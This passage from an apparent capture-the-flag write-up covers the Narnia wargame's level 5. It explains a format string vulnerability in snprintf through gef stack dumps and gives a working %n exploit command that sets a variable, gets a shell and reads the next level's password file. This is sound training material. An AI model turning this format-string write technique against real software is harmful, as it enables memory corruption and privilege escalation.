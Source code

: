 0xffffd5d4:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd5dc:	0x86	0xa2
```
I have surrounded with ```[]``` the contents of ```buffer```, as shown by our previous disassembly.
Now let's continue execution and see what happens with ```snprintf``` if ```argv[1]``` is ```AAAA%08x```.
```
gef➤  x/90bx $esp
                    address of buffer                  sizeof buffer
0xffffd584:    (0x90	0xd5	0xff	0xff)  (0x40	0x00	0x00	0x00)
                        argv[1]                     contents of buffer
0xffffd58c:    (0xd5	0xd7	0xff	0xff)  [0x41	0x41	0x41	0x41
0xffffd594:	0x34	0x31	0x34	0x31	0x34	0x31	0x34	0x31
0xffffd59c:	0x00	0x00	0x20	0x00	0x01	0x00	0x00	0x00
0xffffd5a4:	0x00	0x00	0x00	0x00	0x90	0x08	0xe4	0xf7
0xffffd5ac:	0x1b	0x86	0x04	0x08	0x02	0x00	0x00	0x00
0xffffd5b4:	0x74	0xd6	0xff	0xff	0x80	0xd6	0xff	0xff
0xffffd5bc:	0xf1	0x85	0x04	0x08	0xdc	0x53	0xfc	0xf7
0xffffd5c4:	0x2c	0x82	0x04	0x08	0xd9	0x85	0x04	0x08
                                                            i = 1
0xffffd5cc:	0x00	0x00	0x00	0x00]  (0x01	0x00	0x00	0x00)
0xffffd5d4:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd5dc:	0x86	0xa2
```
Now our buffer is ```AAAA41414141```. What happened?
Well, basically we called ```snprintf(buffer, 64, "AAAA%08x");```. The moment the program parses the ```%08x``` it knows it has to do with a format string and needs to print out 8 hex digits from the next parameter. The execution thinks we called ```snprintf(buffer, 64, "AAAA%08x", value);```. So, it would normally look for that value in the next four bytes of the stack and these, at that point, will be our 4 ```A```'s that are stored at the beginning of buffer as ```0x41	0x41	0x41	0x41```. Since we want this as a string, we will obtain "41414141", which in hexa is exactly ```0x34	0x31	0x34	0x31	0x34	0x31	0x34	0x31``` and thus we have overwritten an unintended part of the stack.
How can we get to ```i```? We can use the ```%n``` format string to get the number of characters printed:
```
printf("%500x%2$n, value, &charNo)
```
would print us 500 hex digits from ```value``` (if it has less, the rest will be padded with whitespaces (```0x20```)) and store the number of printed characters (due to ```%n```) in the second argument ```charNo```(due to ```2$```).
So, we can use ```i``` as the argument where to store the number of printed bytes. We can access it by getting its address which, luckily, is nicely printed to us.
```
narnia5@narnia:/narnia$ ./narnia5 $(python -c 'print "\x10\xd6\xff\xff" + "%496x%1$n"')
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
```

## Level 6 -> 7 ##
```
narnia6@narnia:/narnia$ cd /narnia
narnia6@narnia:/narnia$ cat narnia6.c
```
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
